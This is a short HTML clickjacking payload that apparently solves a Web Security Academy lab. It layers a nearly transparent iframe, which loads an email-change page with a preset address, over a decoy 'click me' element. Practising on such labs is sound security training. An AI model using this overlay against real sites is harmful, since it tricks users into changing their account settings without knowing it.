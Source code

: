 #use the following HTML
<style>
        iframe {
            position: relative;
            width: 500px;
            height: 700px;
            opacity: 0.1;
            z-index: 2;
        }

        div {
            position: absolute;
            top: 400px;
            left: 60px;
            z-index: 1;
        }
    </style>

    <div>click me</div>
    <iframe src="https://ac441f3d1f22ac8e80f1013d004500bc.web-security-academy.net/email?email=teste%40teste.com"></iframe>